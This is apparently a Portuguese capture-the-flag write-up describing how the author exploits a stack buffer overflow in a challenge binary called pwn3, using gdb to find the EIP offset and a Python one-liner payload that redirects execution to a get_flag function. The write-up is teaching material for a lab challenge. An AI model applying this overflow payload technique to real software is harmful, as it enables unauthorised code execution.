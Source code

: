 ```yaml
---
layout: post
title: Pwn0
categories:
- Hack a flag aracaju
---
```

div {
    text-align: justify;
    text-justify: inter-word;
}
Link para pwn3:
https://s3-us-west-1.amazonaws.com/contattafiles/ratf/dRi0rQk6fm53a8r/pwn3

Ao se executar o pwn pela primeira vez e tentar fazer um overflow enviando um monte de A's para a pergunta "Qual seu nome?", percebi 
que ele limitava a quantidade de caracteres que eram impressos.

Uma proteção contra overflow? Agora o negócio tava mais complicado que os outros dois pwn.

Mas por acaso, antes de analisar o pwn no gdb ou objdump, percebi que ele substituia qualquer "k" (apenas minusculo) por "lol" e com 
k's suficientes os lol estouravam o espaço reservado para eles e passariam por cima de tudo, causando um buffer overflow. 
(Acho que o conhecimento que isso passa é de que sempre se deve testar qualquer tipo de INPUT para verificar falhas em um programa)

Abrindo o pwn no gdb e mandando um info functions, achei 4 funções que eram interessantes:

0x08048f13  get_flag
0x08048f21  replace
0x080491af  vuln
0x0804932d  main

Coloquei breakpoints em todas (b replace, b vuln, b main, b get_flag) e coloquei o pwn pra rodar (run).

Primeiro breakpoint para em main, função principal do programa (pouca novidade aqui). Uso o comando disas main e tento analisar o código (tô longe de saber muito de asm), entendi que main, basicamente só serve pra chamar a função vuln.

   0x08049333 <+6>:     call   0x80491af <vuln>

Com o comando c, mando pwn continuar. E, como imaginei, ele para em vuln. Tento analisar o código da função usando disas vuln, mas a coisa fica um pouco complicada por causa do meu pouco conhecimento de asm. Mesmo assim, compreendo algumas linhas e conclui que vuln era responsável por imprimir a mensagem perguntando do nome, copiar o que a função replace retornar, para o buffer vulnerável usando a perigosa função strcpy, e então imprimir na tela o resultado. Só lembrando que isso tudo eram suposições (boa parte baseadas nas chamadas para funções que vi no código, tipo printf, fgets, call para replace, strcpy...)., já que meu conhecimento em asm (AINDA) 
não é suficiente. 

Como o código de vuln já mostrava, quando mandei o GDB continuar, surgiu a mensagem pedindo para digitar o nome. Depois de digitar 
qualquer coisa e teclar enter, o breakpoint em replace faz efeito. 

Analisar a função replace foi mais complicado. A conclusão que tirei, por achismo, é que ela fica responsável por varrer a string em busca de K's e, caso encontre, substitua por lol. E provavelmente retorne a string modificada.

Instruindo o gdb a continuar, vi que o programa finaliza exibindo a mensagem e só isso.

Então executei o programa novamente no gdb (usando o comando run), mas dessa vez meti um monte de k's no lugar do meu nome.
Aí, depois de mandar o pwn continuar após o breakpoint em replace, o gdb me mostra:

Program received signal SIGSEGV, Segmentation fault.
0x6f6c6c6f  in ?? ()

6f6c6c6f = ollo em hex, o que significa que temos meios lol's em eip, o que significa que podemos sobreescreve-lo com coisa mais útil. Tipo o endereço de get_flag.

Eu aposto que deve haver um jeito mais prático, mas no calor do ctf, fui manualmente testando quantos k's eram necessários para chegar em EIP. De k em k, descobri que 22 k's corrompem eip com um ol, meio lol. Então usei 21 k's mais um caractere qualquer (usei o l no dia) e 4 A's.

Oi, lollollollollollollollollollollollollollollollollollollollollollAAAA


Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()

Achei onde pôr o endereço de get_flag ;D

Para testar a solução, usei o python para criar um arquivo que serviria de entrada para pwn: 
python -c 'print "k"*21 + "l" + "\x13\x8f\x04\x08"' > input

Obs: eu já tinha anotado o endereço de get_flag (0x08048f13) depois de analisar as funções no gdb, imaginei que seria útil. E, como 
sabemos que a regra usada nesse caso para manipulação de armazenamento na memória é Little Endian, invertemos o endereço: 08 04 8f 13 vira 13 8f 04 08.

Para ver se tudo funcionava, no gdb com pwn3, coloquei um breakpoint apenas em get_flag. Então rodei o programa e redirecionei a entrada para o arquivo input, assim, ele iria ler o conteúdo do arquivo e usar como resposta para a pergunta "Qual seu nome?".

(gdb) run < input
Starting program: /home/update/pwn3 < input
Qual seu nome? Oi, lollollollollollollollollollollollollollollollollollollollolloll▒


Breakpoint 1, 0x08048f13 in get_flag ()

Missão cumprida. EIP apontava para get_flag.

(gdb) c
Continuando.
cat: flag.txt: Arquivo ou diretório não encontrado

Program received signal SIGSEGV, Segmentation fault.
0x08048f1f in get_flag ()

Agora bastava explorar o pwn que estava rodando em algum ip dentro da rede do hack a flag e ver o contéudo do arquivo flag.txt ;)

EOF

